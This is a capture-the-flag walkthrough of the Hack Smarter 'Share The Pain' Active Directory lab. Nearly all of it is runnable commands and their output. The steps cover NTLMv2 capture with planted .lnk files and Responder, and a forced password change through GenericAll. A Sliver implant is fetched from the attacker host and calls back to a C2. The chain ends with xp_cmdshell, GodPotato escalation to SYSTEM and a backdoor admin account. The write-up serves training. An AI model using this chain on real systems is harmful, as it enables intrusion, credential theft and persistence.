

# Share The Pain

**Platform:** Hack Smarter Labs  
**Difficulty:** Medium  
**Topics:** Active Directory, NTLMv2 Hash Capture, GenericAll Abuse, MSSQL, SOCKS Proxy, SeImpersonatePrivilege, GodPotato

---

## Overview

ShareThePain is a medium-rated Active Directory lab aligned with PNPT/CPTS difficulty. The attack chain covers a full domain compromise starting from zero credentials: capturing an NTLMv2 hash via a writable SMB share, cracking it, abusing AD ACL rights to pivot between users, tunnelling through an internal MSSQL instance, and exploiting `SeImpersonatePrivilege` to achieve SYSTEM.

**Attack Path:**
```
Null SMB session → NTLMv2 capture (Responder) → Hash crack (Hashcat)
→ BloodHound (GenericAll on alice.wonderland) → Password change → WinRM
→ Internal MSSQL (SOCKS via Sliver) → xp_cmdshell → SeImpersonatePrivilege
→ GodPotato → SYSTEM → New local admin → Root flag
```

---

## Enumeration

### Nmap

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hack.smarter)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
```

Key findings:
- **Domain:** `hack.smarter`
- **Hostname:** `DC01.hack.smarter`
- **OS:** Windows Server 2022 (Build 20348)
- No MSSQL port exposed externally — worth checking for local-only listeners after initial access

### SMB — Null Session Enumeration

Check share permissions without credentials:

```bash
nxc smb hack.smarter -u "" -p "" --shares
```

```
SMB  10.1.115.168  445  DC01  Share  READ,WRITE
```

The `Share` share has **READ/WRITE** access for unauthenticated users — a foothold for hash capture.

---

## Initial Access — NTLMv2 Hash Capture (`bob.ross`)

With write access to a share, we can plant a malicious `.lnk` file. When a user browses the share, Windows automatically authenticates to our listener, leaking their NTLMv2 hash.

### Step 1 — Generate the malicious files

```bash
ntlm_theft.py --verbose --generate modern --server 10.1.115.168 --filename "meetingXYZ"
```

This creates several file types. The `.lnk` is the most reliable for "browse to folder" capture.

### Step 2 — Start Responder

```bash
sudo responder -I tun0 -wv
```

### Step 3 — Upload the `.lnk` to the writable share

```bash
smbclient //10.1.115.168/Share -U hack.smarter -c 'put meetingXYZ/meetingXYZ.lnk meetingXYZ.lnk'
```

### Step 4 — Capture the hash

When a user browses the share, Responder captures their NTLMv2 hash:

```
[SMB] NTLMv2-SSP Username : HACK\bob.ross
[SMB] NTLMv2-SSP Hash     : bob.ross::HACK:39ddc9c0c7c292c3:...
```

### Step 5 — Crack offline with Hashcat

```bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt
```

**Cracked:** `bob.ross : 137Password123!@#`

---

## Enumeration as `bob.ross`

Validate credentials and enumerate users:

```bash
nxc smb hack.smarter -u 'bob.ross' -p '137Password123!@#' --rid
```

**Users discovered:**
- `HACK\bob.ross` (pwned)
- `HACK\alice.wonderland`
- `HACK\tyler.ramsey`

Check for GPP passwords in SYSVOL (classic AD misconfiguration):

```bash
nxc smb hack.smarter -u 'bob.ross' -p '137Password123!@#' -M gpp_password
```

No GPP credentials found — moving to BloodHound.

---

## AD Enumeration — BloodHound

Collect BloodHound data using `bob.ross`:

```bash
nxc ldap dc01.hack.smarter -u 'bob.ross' -p '137Password123!@#' --bloodhound --collection All --dns-server 10.1.115.168
```

**Key finding:** `bob.ross` has **GenericAll** over `alice.wonderland`.


GenericAll grants full control over an object — including the ability to **change their password without knowing the current one**.

`alice.wonderland` is a member of the **Remote Management Users** group, meaning she can connect via WinRM.


---

## Lateral Movement — Compromising `alice.wonderland`

### Step 1 — Force-change Alice's password using GenericAll

```bash
bloodyAD -u 'bob.ross' -p '137Password123!@#' -d hack.smarter -H 10.1.145.243 set password alice.wonderland 'NewPass123!'
```

### Step 2 — Connect via Evil-WinRM

```bash
evil-winrm -i 10.1.145.243 -u 'alice.wonderland' -p 'NewPass123!'
```

```
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> whoami
hack\alice.wonderland
```

User flag is on the desktop:

```bash
*Evil-WinRM* PS C:\users\alice.wonderland\desktop> type user.txt
```

Check privileges — nothing exploitable directly:

```
SeMachineAccountPrivilege     Enabled
SeChangeNotifyPrivilege       Enabled
SeIncreaseWorkingSetPrivilege Enabled
```

Enumerate the filesystem for clues:

```
*Evil-WinRM* PS C:\> dir

SQL2019    <-- MSSQL installed
Temp
Share
```

`SQL2019` is present but MSSQL wasn't exposed externally. Check for local listeners:

```bash
netstat -ano | findstr LISTENING
```

```
TCP    127.0.0.1:1433    0.0.0.0:0    LISTENING    4208
```

**MSSQL is running locally on 127.0.0.1:1433** — only accessible from the machine itself. We need to pivot.

---

## Pivoting — SOCKS Proxy via Sliver C2

To interact with the internal MSSQL instance, we set up a SOCKS5 proxy through a Sliver implant running on the compromised host.

### Step 1 — Start Sliver

```bash
sliver-server
```

### Step 2 — Generate an mTLS implant

```bash
[server] sliver > generate --mtls 10.200.59.205:443 --save /home/jhaxx/CTFs/HackSmarter/ShareThePain/files
```

Output: `MAGNIFICENT_POLISH.exe`

### Step 3 — Transfer implant to target

```bash
# Kali — serve the file
python -m http.server 80

# Target — download it
*Evil-WinRM* PS C:\users\alice.wonderland\desktop> wget http://10.200.59.205/MAGNIFICENT_POLISH.exe -o MAGNIFICENT_POLISH.exe
```

### Step 4 — Start mTLS listener and execute implant

```bash
[server] sliver > mtls --lhost 10.200.59.205 --lport 443
```

```bash
*Evil-WinRM* PS C:\users\alice.wonderland\desktop> ./MAGNIFICENT_POLISH.exe
```

Session connects back:

```
[*] Session 92dda2de MAGNIFICENT_POLISH - 10.1.145.243:50191 (DC01) - HACK\alice.wonderland
```

### Step 5 — Start SOCKS5 proxy

```bash
[server] sliver (MAGNIFICENT_POLISH) > socks5 start
[*] Started SOCKS5 127.0.0.1 1081
```

### Step 6 — Configure Proxychains

Edit `/etc/proxychains4.conf`:

```
socks5 127.0.0.1 1081
```

---

## Privilege Escalation — MSSQL `SeImpersonatePrivilege`

### Step 1 — Connect to internal MSSQL through the proxy

```bash
proxychains -q impacket-mssqlclient hack.smarter/'alice.wonderland':'NewPass123!'@127.0.0.1 -windows-auth
```

Check privileges of the MSSQL service account:

```sql
SQL> xp_cmdshell whoami /priv
```

```
SeImpersonatePrivilege    Impersonate a client after authentication    Enabled
```

`SeImpersonatePrivilege` is enabled — classic potato exploit territory.

### Step 2 — Spawn a Sliver session as the MSSQL service account

The `SeImpersonatePrivilege` belongs to `NT Service\MSSQL$SQLEXPRESS`, not `alice.wonderland`. We need to run GodPotato from that context.

Copy the implant to `C:\Temp\` first (accessible by the service account). Do this from the `alice.wonderland` Evil-WinRM session:

```bash
*Evil-WinRM* PS C:\users\alice.wonderland\desktop> copy MAGNIFICENT_POLISH.exe C:\Temp\MAGNIFICENT_POLISH.exe
```

Then execute it via xp_cmdshell:

```sql
SQL> xp_cmdshell 'C:\Temp\MAGNIFICENT_POLISH.exe'
```

A new session appears in Sliver as `NT Service\MSSQL$SQLEXPRESS`. Interact with it and drop into a shell:

```bash
[server] sliver > sessions -i 569971ec
[server] sliver (MAGNIFICENT_POLISH) > shell
PS C:\Windows\system32> whoami
nt service\mssql$sqlexpress
```

---

## Full Domain Compromise — GodPotato → SYSTEM

### Step 1 — Download GodPotato

[GodPotato-NET4.exe](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe)

Transfer to `C:\Temp\` via the `alice.wonderland` Evil-WinRM session:

```bash
*Evil-WinRM* PS C:\Temp> wget http://10.200.59.205/GodPotato-NET4.exe -o godpotato.exe
```

### Step 2 — Verify SYSTEM execution

From the MSSQL service account shell:

```bash
PS C:\Temp> ./godpotato.exe -cmd "cmd /c whoami"
[*] CurrentUser: NT AUTHORITY\SYSTEM
nt authority\system
```

### Step 3 — Create a local administrator

```bash
PS C:\Temp> ./godpotato -cmd "cmd /c net user hacksmarter Hack12345 /add && net localgroup administrators hacksmarter /add"
The command completed successfully.
The command completed successfully.
```

### Step 4 — Verify

```bash
*Evil-WinRM* PS C:\> net user hacksmarter
Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
```

---

## Root Flag

Connect with the new admin account:

```bash
evil-winrm -u hacksmarter -p Hack12345 -i dc01.hack.smarter
```

```bash
*Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
```



---

## Summary

| Step | Technique | Tool |
|------|-----------|------|
| Null SMB → writable share | NTLMv2 hash capture | ntlm_theft, Responder |
| Hash crack | Offline bruteforce | Hashcat |
| AD ACL abuse | GenericAll → force password change | bloodyAD |
| WinRM access | Lateral movement | Evil-WinRM |
| Internal MSSQL | SOCKS5 proxy pivot | Sliver C2, Proxychains |
| MSSQL code execution | xp_cmdshell | impacket-mssqlclient |
| Privilege escalation | SeImpersonatePrivilege → SYSTEM | GodPotato |
| Persistence | Local admin creation | net user |
